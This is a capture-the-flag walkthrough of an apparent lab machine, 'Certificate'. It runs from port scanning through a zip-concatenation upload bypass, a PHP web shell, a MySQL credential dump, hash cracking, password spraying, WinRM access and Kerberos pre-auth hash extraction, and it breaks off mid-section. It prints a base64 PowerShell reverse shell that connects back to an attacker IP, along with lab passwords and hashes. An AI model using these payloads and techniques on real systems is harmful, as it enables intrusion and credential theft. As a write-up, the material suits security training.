# Certificate
## Host file setup
```python
❯❯❯ sudo nxc smb 10.129.245.51 --generate-hosts-file /etc/hosts 
SMB         10.129.245.51   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certificate.htb) (signing:True) (SMBv1:None) (Null Auth:True)
```

## Enumerationm
### Open ports
```python
❯❯❯ nmap -p- --min-rate=2000 -sT -Pn dc01.certificate.htb -vv

Nmap scan report for dc01.certificate.htb (10.129.245.51)
Host is up, received user-set (0.014s latency).
rDNS record for 10.129.245.51: DC01.certificate.htb
Scanned at 2026-11-03 18:01:27 GMT for 66s
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack
80/tcp    open  http             syn-ack
88/tcp    open  kerberos-sec     syn-ack
135/tcp   open  msrpc            syn-ack
139/tcp   open  netbios-ssn      syn-ack
389/tcp   open  ldap             syn-ack
445/tcp   open  microsoft-ds     syn-ack
464/tcp   open  kpasswd5         syn-ack
593/tcp   open  http-rpc-epmap   syn-ack
636/tcp   open  ldapssl          syn-ack
3268/tcp  open  globalcatLDAP    syn-ack
3269/tcp  open  globalcatLDAPssl syn-ack
5985/tcp  open  wsman            syn-ack
9389/tcp  open  adws             syn-ack
49666/tcp open  unknown          syn-ack
49693/tcp open  unknown          syn-ack
49695/tcp open  unknown          syn-ack
49697/tcp open  unknown          syn-ack
49716/tcp open  unknown          syn-ack
56747/tcp open  unknown          syn-ack

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 66.20 seconds
```

### Nmap
```python
❯❯❯ nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -A --min-rate=2000 -sT -Pn dc01.certificate.htb
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-03 18:04 +0000
Nmap scan report for dc01.certificate.htb (10.129.245.51)
Host is up (0.014s latency).
rDNS record for 10.129.245.51: DC01.certificate.htb

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.0.30)
|_http-title: Certificate | Your portal for certification
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-11-04 02:04:12Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: certificate.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-11-04T02:05:17+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.certificate.htb, DNS:certificate.htb, DNS:CERTIFICATE
| Not valid before: 2026-03-12T20:45:13
|_Not valid after:  2106-03-12T20:45:13
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certificate.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-11-04T02:05:17+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.certificate.htb, DNS:certificate.htb, DNS:CERTIFICATE
| Not valid before: 2026-03-12T20:45:13
|_Not valid after:  2106-03-12T20:45:13
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: certificate.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-11-04T02:05:17+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.certificate.htb, DNS:certificate.htb, DNS:CERTIFICATE
| Not valid before: 2026-03-12T20:45:13
|_Not valid after:  2106-03-12T20:45:13
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certificate.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-11-04T02:05:17+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.certificate.htb, DNS:certificate.htb, DNS:CERTIFICATE
| Not valid before: 2026-03-12T20:45:13
|_Not valid after:  2106-03-12T20:45:13
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (95%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Microsoft Windows Server 2019 (95%), Microsoft Windows 10 1903 - 22H2 (91%), Microsoft Windows 10 1909 - 2004 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Hosts: certificate.htb, DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SMB (445)

Null auth enabled by default with DCs however cannot use it to enumerate

The guest account is also disabled

## HTTP (80)



Ill have a look around the site

The blog page has several potential users

```python
charlie barber 
mark wiens
ben frank
carol wood
```

I can also register and login to the page

Nothing interesting on the login page, so i think the best next step is to create an account



Looks like i can choose the account type i create, if i create teacher i will need to tell support to activate it

This will be through the contact page



Ill create an account for both account types


Now after logging in i can reach this endpoint



Each page has a different trainer name

There is also a feedback section which is interesting

Looks like there is 4 courses available `?id=1-4`

```python
lorra armessa
havok watterson
sara laracrof
john wood
```

These are the trainer names from each of the courses

Ill try enrolling and testing the feedback option

Enrolling in the course gives me access to course content



There are certain parts of the course with file submission

It also says the file will be inspected by the course instructor



Uploading a .txt file shows an invalid MIME type error

## Reverse shell



Ill upload a valid file format such as a pdf and i see there is a built in viewer


This is where they are stored, i can try a PHP web shell here

After testing its behavior i see that the zip file is the best bet, this is becuase the zip file bypasses any extension checks and content-type checks

```python
❯❯❯ zip -r shell.zip shell.php default.pdf
```

I zipped a php web shell with a example pdf 

After uploading i get a 400 error, this is likely because its detecting the file type .php after unzipping

But by uploading a .zip it bypasses content-type and extension checks

```python
<?php
shell_exec('powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4ANgAxACIALAAxADMAMwA3ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==');
?>
```

This is the contents of shell.php, i just grabbed the powershell base64 shell from revshells

```python
❯❯❯ zip -r default.zip default.pdf                                                   
  adding: default.pdf (deflated 51%)
  
❯❯❯ zip -r shell.zip shell.php               
  adding: shell.php (stored 0%)
```

Ill zip both of these files individually

```python
❯❯❯ cat default.zip shell.zip > rce.zip
```

Then ill cat both files out with the .pdf file first then put this in a zip file



The upload succeeds

```python
❯❯❯ rlwrap nc -lnvp 1337
listening on [any] 1337 ...
```

Ill start a listener

Then ill click the link to open the upload, it takes me to the pdf in the URL, so ill just change it from `default.pdf` to `shell.php`



I now have a shell

```python
PS C:\xampp\htdocs\certificate.htb> dir


    Directory: C:\xampp\htdocs\certificate.htb


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       12/26/2024   1:49 AM                static                                                                
-a----       12/24/2024  12:45 AM           7179 about.php                                                             
-a----       12/30/2024   1:50 PM          17197 blog.php                                                              
-a----       12/30/2024   2:02 PM           6560 contacts.php                                                          
-a----       12/24/2024   6:10 AM          15381 course-details.php                                                    
-a----       12/24/2024  12:53 AM           4632 courses.php                                                           
-a----       12/23/2024   4:46 AM            549 db.php                                                                
-a----       12/22/2024  10:07 AM           1647 feature-area-2.php                                                    
-a----       12/22/2024  10:22 AM           1331 feature-area.php                                                      
-a----       12/22/2024  10:16 AM           2955 footer.php                                                            
-a----       12/23/2024   5:13 AM           2351 header.php                                                            
-a----       12/24/2024  12:52 AM           9497 index.php                                                             
-a----       12/25/2024   1:34 PM           5908 login.php                                                             
-a----       12/23/2024   5:14 AM            153 logout.php                                                            
-a----       12/24/2024   1:27 AM           5321 popular-courses-area.php                                              
-a----       12/25/2024   1:27 PM           8240 register.php                                                          
-a----       12/28/2024  11:26 PM          10366 upload.php                                                            


PS C:\xampp\htdocs\certificate.htb>
```

Ill look into `db.php`



There is credentials stored here

Checking internal ports 3306 is open, which indicated mysql

```python
PS C:\xampp\htdocs\certificate.htb> net user

User accounts for \\DC01

-------------------------------------------------------------------------------
Administrator            akeder.kh                Alex.D                   
Aya.W                    Eva.F                    Guest                    
John.C                   Kai.X                    kara.m                   
karol.s                  krbtgt                   Lion.SK                  
Maya.K                   Nya.S                    Ryan.K                   
saad.m                   Sara.B                   xamppuser                
The command completed successfully.

PS C:\xampp\htdocs\certificate.htb>
```

Also these are the users

## Lateral movement

```python
PS C:\xampp\htdocs\certificate.htb> C:\xampp\mysql\bin\mysql.exe -u certificate_webapp_user -p'cert!f!c@teDBPWD' -e "SHOW DATABASES;"
Database
certificate_webapp_db
information_schema
test
PS C:\xampp\htdocs\certificate.htb> 
```

Ill do some enumeration into the databases

```python
PS C:\xampp\htdocs\certificate.htb> \xampp\mysql\bin\mysql.exe -u certificate_webapp_user -p'cert!f!c@teDBPWD' -e "USE certificate_webapp_db; SHOW TABLES"
Tables_in_certificate_webapp_db
course_sessions
courses
users
users_courses
PS C:\xampp\htdocs\certificate.htb> 
```

These are the tables from the DB referenced in the php source code

```python
PS C:\xampp\htdocs\certificate.htb> \xampp\mysql\bin\mysql.exe -u certificate_webapp_user -p'cert!f!c@teDBPWD' -e "USE certificate_webapp_db; SELECT * FROM users"
id	first_name	last_name	username	email	password	created_at	role	is_active
1	Lorra	Armessa	Lorra.AAA	lorra.aaa@certificate.htb	$2y$04$bZs2FUjVRiFswY84CUR8ve02ymuiy0QD23XOKFuT6IM2sBbgQvEFG	2024-12-23 12:43:10	teacher	1
6	Sara	Laracrof	Sara1200	sara1200@gmail.com	$2y$04$pgTOAkSnYMQoILmL6MRXLOOfFlZUPR4lAD2kvWZj.i/dyvXNSqCkK	2024-12-23 12:47:11	teacher	1
7	John	Wood	Johney	johny009@mail.com	$2y$04$VaUEcSd6p5NnpgwnHyh8zey13zo/hL7jfQd9U.PGyEW3yqBf.IxRq	2024-12-23 13:18:18	student	1
8	Havok	Watterson	havokww	havokww@hotmail.com	$2y$04$XSXoFSfcMoS5Zp8ojTeUSOj6ENEun6oWM93mvRQgvaBufba5I5nti	2024-12-24 09:08:04	teacher	1
9	Steven	Roman	stev	steven@yahoo.com	$2y$04$6FHP.7xTHRGYRI9kRIo7deUHz0LX.vx2ixwv0cOW6TDtRGgOhRFX2	2024-12-24 12:05:05	student	1
10	Sara	Brawn	sara.b	sara.b@certificate.htb	$2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6	2024-12-25 21:31:26	admin	1
12	student	student	student	student@student.com	$2y$04$qG.Qlmp943zS/JPdfa/.UebEEzW3Y94mrXzKBkqljzsbL/U2je3qy	2026-11-03 18:34:54	student	1
PS C:\xampp\htdocs\certificate.htb>
```

Then ill just dump the users table

```python
Lorra.AAA:$2y$04$bZs2FUjVRiFswY84CUR8ve02ymuiy0QD23XOKFuT6IM2sBbgQvEFG
Sara1200:$2y$04$pgTOAkSnYMQoILmL6MRXLOOfFlZUPR4lAD2kvWZj.i/dyvXNSqCkK
Johney:$2y$04$VaUEcSd6p5NnpgwnHyh8zey13zo/hL7jfQd9U.PGyEW3yqBf.IxRq
havokww:$2y$04$XSXoFSfcMoS5Zp8ojTeUSOj6ENEun6oWM93mvRQgvaBufba5I5nti
stev:$2y$04$6FHP.7xTHRGYRI9kRIo7deUHz0LX.vx2ixwv0cOW6TDtRGgOhRFX2
sara.b:$2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6
```

These are the important details from here

```python
❯❯❯ hashcat -m 3200 hashes.txt --user /usr/share/wordlists/rockyou.txt

$2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6:Blink182
```

One of them cracked!

## Compromising `sara.b`

Ill use the users from earlier and try to spray this on the domain accounts

```python
❯❯❯ nxc smb dc01.certificate.htb -u users.txt -p 'Blink182' --continue-on-success

SMB         10.129.245.51   445    DC01             [+] certificate.htb\Sara.B:Blink182
```

This user is now compromised!

```python
 ❯❯❯ nxc smb dc01.certificate.htb -u sara.b -p 'Blink182' --rid-brute 20000 | grep SidTypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 | tee users.txt
Administrator
Guest
krbtgt
DC01$
WS-01$
Kai.X
Sara.B
John.C
Aya.W
Nya.S
Maya.K
Lion.SK
Eva.F
Ryan.K
akeder.kh
kara.m
Alex.D
karol.s
saad.m
xamppuser
WS-05$
```

Ill recollect users, in case of any machine accounts

There are no kerberoastable or asreproastable users

No writable objects

```python
❯❯❯ bloodyAD --host dc01.certificate.htb -d certificate.htb -u sara.b -p 'Blink182' get membership 'sara.b'

distinguishedName: CN=Users,CN=Builtin,DC=certificate,DC=htb
objectSid: S-1-5-32-545
sAMAccountName: Users

distinguishedName: CN=Pre-Windows 2000 Compatible Access,CN=Builtin,DC=certificate,DC=htb
objectSid: S-1-5-32-554
sAMAccountName: Pre-Windows 2000 Compatible Access

distinguishedName: CN=Remote Desktop Users,CN=Builtin,DC=certificate,DC=htb
objectSid: S-1-5-32-555
sAMAccountName: Remote Desktop Users

distinguishedName: CN=Remote Management Users,CN=Builtin,DC=certificate,DC=htb
objectSid: S-1-5-32-580
sAMAccountName: Remote Management Users

distinguishedName: CN=Domain Users,CN=Users,DC=certificate,DC=htb
objectSid: S-1-5-21-515537669-4223687196-3249690583-513
sAMAccountName: Domain Users

distinguishedName: CN=Help Desk,CN=Users,DC=certificate,DC=htb
objectSid: S-1-5-21-515537669-4223687196-3249690583-1110
sAMAccountName: Help Desk
```

This user is in remote management which means i can winrm

## WINRM access as `sara.b`

```python
❯❯❯ evil-winrm -i dc01.certificate.htb -u sara.b -p 'Blink182' 
                                        
Evil-WinRM shell v4.1
                                        
Info: Establishing connection to remote endpoint
                                        
Info: Connection successful
*Evil-WinRM* PS C:\Users\Sara.B\Documents>
```

Ill enumerate the filesystem

```python
*Evil-WinRM* PS C:\Users\Sara.B\Documents\WS-01> dir


    Directory: C:\Users\Sara.B\Documents\WS-01


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        11/4/2024  12:44 AM            530 Description.txt
-a----        11/4/2024  12:45 AM         296660 WS-01_PktMon.pcap


*Evil-WinRM* PS C:\Users\Sara.B\Documents\WS-01>
```

An interesting dir in documents

```python
*Evil-WinRM* PS C:\Users\Sara.B\Documents\WS-01> type "C:/Users/Sara.B/Documents/WS-01/Description.txt"
The workstation 01 is not able to open the "Reports" smb shared folder which is hosted on DC01.
When a user tries to input bad credentials, it returns bad credentials error.
But when a user provides valid credentials the file explorer freezes and then crashes!
```

This is the description, the fact its placed with a pcap, i would think the capture shows the valid creds being used

Ill download the pcap and open it in wireshark

## Wireshark analysis

Ill open the file in wireshark



Ill filter for kerberos

https://medium.com/@liram.cybersec/from-packets-to-passwords-utilizing-pcap-file-data-for-domain-access-5c206e64566b

https://hashcat.net/wiki/doku.php?id=example_hashes

The third packet in the list is the most interesting



This is the packet i can use to forge a crackable hash

```python
$krb5pa$18$Lion.SK$certificate.htb$23f5159fa1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b98ed1e4f3951a50bc083c9bc0f16f0f586181c9d4ceda3fb5e852f0
```

This is the crafted hash

`$krb5pa` indicates this is pre auth taken from an AS-REQ packet

`$18$` indicates AES256 as shown in the screenshot above

`Lion.SK$` is the username 

`certificate.htb$` is the domain

`23f5159fa1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b98ed1e4f3951a50bc083c9bc0f16f0f586181c9d4ceda3fb5e852f0` is the encrpyted time stamp

```python
